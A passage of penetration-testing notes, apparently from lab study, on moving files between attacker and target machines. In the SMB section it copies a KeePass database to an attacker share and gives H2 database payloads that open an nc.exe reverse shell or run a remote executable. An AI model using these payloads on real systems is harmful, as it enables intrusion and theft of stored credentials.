 ```bash
    "//kali_ip/MyShare -U your_username" 
```
Alternative:

Kali:

```bash
impacket-smbserver -smb2support newShare . -username test -password test
```

Windows:

```bash
PS C:\Users\jim\Documents> net use z: \\192.168.45.163\newShare /u:test test
PS C:\Users\jim\Documents> copy Database.kdbx z:\
```

You can also execute commands that lie on your Linux machine from a Windows one through SMB shares:

```bash
sudo smbserver.py -smb2support Share .

CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/nc.exe -e cmd.exe 192.168.45.163 8082").getInputStream()).useDelimiter("\\Z").next()');
#or 
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/wicked.exe").getInputStream()).useDelimiter("\\Z").next()');
```

#### Host Simple FTP Server

```bash
python -m pyftpdlib -w
```

#### Host an Apache Web Server

```bash
sudo systemctl start apache2
cp file.txt /var/www/html/
# You can access the files on port 80 of your machine/ip
```

#### Borg

```bash
sudo borg list /opt/borgbackup/
sudo borg extract /opt/borgbackup/::home --stdout
```

#### Verify Checksum

Download the software, then echo the copied checksum along with the filename of the installer into a file, then use the sha256sum -c command:

```bash
kali@kali:~$ cd ~/Downloads

kali@kali:~/Downloads$ echo "4987776fef98bb2a72515abc0529e90572778b1d7aeeb1939179ff1f4de1440d Nessus-10.5.0-debian10_amd64.deb" > sha256sum_nessus

kali@kali:~/Downloads$ sha256sum -c sha256sum_nessus
Nessus-10.5.0-debian10_amd64.deb: OK
```

